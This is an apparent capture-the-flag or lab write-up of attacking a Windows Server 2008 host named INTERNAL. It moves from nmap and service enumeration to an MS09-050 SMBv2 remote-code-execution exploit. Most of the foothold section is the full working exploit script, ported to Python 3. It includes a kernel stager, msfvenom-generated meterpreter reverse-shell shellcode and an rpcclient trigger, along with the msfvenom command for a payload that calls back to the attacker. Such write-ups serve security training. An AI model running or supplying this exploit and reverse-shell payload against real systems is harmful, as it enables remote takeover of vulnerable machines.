**Start 18:09 07-01-2025**

---
```
Scope:
192.168.213.40
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.213.40 -T5 -vvvv --min-rate=5000 -sT -p-

PORT      STATE SERVICE            REASON  VERSION        
53/tcp    open  domain             syn-ack Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)                               
| dns-nsid:
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server? syn-ack              
|   Target_Name: INTERNAL  
|   NetBIOS_Computer_Name: INTERNAL                                     
|   DNS_Domain_Name: internal                             
|   DNS_Computer_Name: internal
| ssl-cert: Subject: commonName=internal
| Issuer: commonName=internal
5357/tcp  open  http               syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack Microsoft Windows RPC
49158/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-07T17:12:12
|_  start_date: 2024-08-03T02:11:43
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-01-07T09:12:12-08:00
|_clock-skew: mean: 1h35m58s, deviation: 3h34m39s, median: -1s
| nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:34:f1 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
```

There's an http port open, but it says the service is unavailable and gives us a code `503`.

We notice we're dealing with a **Windows Server 2008:R2 Standard 6001** called **INTERNAL**.

Let's run another nmap scan to further enumerate the SMB share.

```bash
sudo nmap -sC -sV -oN smb-nmap 192.168.213.40 -T5 -vvvv --min-rate=5000 -sT -p 445 --script smb-vuln*

PORT    STATE SERVICE      REASON  VERSION
445/tcp open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: TIMEOUT
|_smb-vuln-ms10-054: false
| smb-vuln-cve2009-3103: 
|   VULNERABLE:
|   SMBv2 exploit (CVE-2009-3103, Microsoft Security Advisory 975497)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2009-3103
|           Array index error in the SMBv2 protocol implementation in srv2.sys in Microsoft Windows Vista Gold, SP1, and SP2,
|           Windows Server 2008 Gold and SP2, and Windows 7 RC allows remote attackers to execute arbitrary code or cause a
|           denial of service (system crash) via an & (ampersand) character in a Process ID High header field in a NEGOTIATE
|           PROTOCOL REQUEST packet, which triggers an attempted dereference of an out-of-bounds memory location,
|           aka "SMBv2 Negotiation Vulnerability."
|           
|     Disclosure date: 2009-09-08
|     References:
|       http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-3103
```

We got a CVE, but for now let's enumerate further.

Judging by the presence of port `53` we see that our target is the **Domain** of a network.

>[!note]
>From our [[Active Directory Testing]] note we remember to start with SMB, so let's do that.


## 445/TCP - SMB





With smbclient we can connect, but nothing is shared with the anonymous user.

>[!caution]
>I found an exploit but wasn't 100% sure whether this was the one I'd need, so I enumerated further first.
>


I then went ahead and checked `135/139` RPC.


## 135/TCP - RPC



We didn't have the right clearance eventhough we could log in.

Next step would be to test port `3389`.


## 3389/TCP - RDP

>[!note]
>I checked the [following guide](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html) for enumerating this port.



This gave us a bunch of info, I then tried to just RDP without creds and to my surprise it worked?



However we don't have a password. 

Let's enumerate further.


## 5357/TCP - WSDAPI





>[!quote]
>Port should be correctly mapped by the Windows Firewall to only accept connections from local network.

Interesting...



Even more interesting!





When looking for an exploit for this vulnerability we stumble across the exact same PoC we previously found:



Let's grab the PoC from searchsploit.


# Initial Foothold

The whole PoC is written in Python2 which we will have to adjust, as well as some other issues.

Let's start by examining it:



We can go ahead and replace the shellcode with our own msfvenom-made shellcode:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443  EXITFUNC=thread  -f python
```



>[!note]
>Also note the difference of the added lower case ‘b’ before the open double quotation. This indicated a byte string in python3.





After changing the `buf` to `shell` we can move along to the next part.



As for the Python2 part we just need to change the following:



This way we won't get an error for the `print` function.

The finished PoC should look like this:

```python
# EDB-Note: Source ~ https://raw.githubusercontent.com/ohnozzy/Exploit/master/MS09_050.py

#!/usr/bin/python
#This module depends on the linux command line program smbclient.
#I can't find a python smb library for smb login. If you can find one, you can replace that part of the code with the smb login function in python.
#The idea is that after the evil payload is injected by the first packet, it need to be trigger by an authentication event. Whether the authentication successes or not does not matter.
import tempfile
import sys
import subprocess
from socket import socket
from time import sleep
from smb.SMBConnection import SMBConnection


try:

	target = sys.argv[1]
except IndexError:
	print('\nUsage: %s <target ip>\n' % sys.argv[0])
	print('Example: MS36299.py 192.168.1.1 1\n')
	sys.exit(-1)

#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.77 LPORT=443  EXITFUNC=thread  -f python
shell =  b""
shell += b"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64"
shell += b"\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a"
shell += b"\x26\x31\xff\x8b\x72\x28\x31\xc0\xac\x3c\x61\x7c"
shell += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shell += b"\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
shell += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58"
shell += b"\x20\x01\xd3\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
shell += b"\x8b\x01\xd6\x31\xc0\xac\xc1\xcf\x0d\x01\xc7\x38"
shell += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shell += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shell += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shell += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shell += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shell += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shell += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shell += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2d"
shell += b"\xbe\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50"
shell += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shell += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shell += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shell += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shell += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shell += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shell += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shell += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shell += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shell += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shell += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shell += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xe0\x1d\x2a"
shell += b"\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shell += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00"
shell += b"\x53\xff\xd5"


host = target, 445

buff =b"\x00\x00\x03\x9e\xff\x53\x4d\x42"
buff+=b"\x72\x00\x00\x00\x00\x18\x53\xc8"
buff+=b"\x17\x02" #high process ID
buff+=b"\x00\xe9\x58\x01\x00\x00"
buff+=b"\x00\x00\x00\x00\x00\x00\x00\x00"
buff+=b"\x00\x00\xfe\xda\x00\x7b\x03\x02"
buff+=b"\x04\x0d\xdf\xff"*25
buff+=b"\x00\x02\x53\x4d"
buff+=b"\x42\x20\x32\x2e\x30\x30\x32\x00"
buff+=b"\x00\x00\x00\x00"*37
buff+=b"\xff\xff\xff\xff"*2
buff+=b"\x42\x42\x42\x42"*7
buff+=b"\xb4\xff\xff\x3f" #magic index
buff+=b"\x41\x41\x41\x41"*6
buff+=b"\x09\x0d\xd0\xff" #return address

#stager_sysenter_hook from metasploit

buff+=b"\xfc\xfa\xeb\x1e\x5e\x68\x76\x01"
buff+=b"\x00\x00\x59\x0f\x32\x89\x46\x5d"
buff+=b"\x8b\x7e\x61\x89\xf8\x0f\x30\xb9"
buff+=b"\x16\x02\x00\x00\xf3\xa4\xfb\xf4"
buff+=b"\xeb\xfd\xe8\xdd\xff\xff\xff\x6a"
buff+=b"\x00\x9c\x60\xe8\x00\x00\x00\x00"
buff+=b"\x58\x8b\x58\x54\x89\x5c\x24\x24"
buff+=b"\x81\xf9\xde\xc0\xad\xde\x75\x10"
buff+=b"\x68\x76\x01\x00\x00\x59\x89\xd8"
buff+=b"\x31\xd2\x0f\x30\x31\xc0\xeb\x31"
buff+=b"\x8b\x32\x0f\xb6\x1e\x66\x81\xfb"
buff+=b"\xc3\x00\x75\x25\x8b\x58\x5c\x8d"
buff+=b"\x5b\x69\x89\x1a\xb8\x01\x00\x00"
buff+=b"\x80\x0f\xa2\x81\xe2\x00\x00\x10"
buff+=b"\x00\x74\x0e\xba\x00\xff\x3f\xc0"
buff+=b"\x83\xc2\x04\x81\x22\xff\xff\xff"
buff+=b"\x7f\x61\x9d\xc3\xff\xff\xff\xff"
buff+=b"\x00\x04\xdf\xff\x00\x04\xfe\x7f"
buff+=b"\x60\x6a\x30\x58\x99\x64\x8b\x18"
buff+=b"\x39\x53\x0c\x74\x2b\x8b\x43\x10"
buff+=b"\x8b\x40\x3c\x83\xc0\x28\x8b\x08"
buff+=b"\x03\x48\x03\x81\xf9\x6c\x61\x73"
buff+=b"\x73\x75\x15\xe8\x07\x00\x00\x00"
buff+=b"\xe8\x0d\x00\x00\x00\xeb\x09\xb9"
buff+=b"\xde\xc0\xad\xde\x89\xe2\x0f\x34"
buff+=b"\x61\xc3\x81\xc4\x54\xf2\xff\xff"

buff+=shell

s = socket()
s.connect(host)
s.send(buff)
s.close()
#Trigger the above injected code via authenticated process.
subprocess.call("echo '1223456' | rpcclient -U Administrator %s"%(target), shell=True)
```

Let's set up a listener and execute.



More troubleshooting.

>[!info]
>Easily solved using `pip3 install pysmb`
>

Unfortunately enough something must've gone wrong since I did *NOT* receive a connection back:

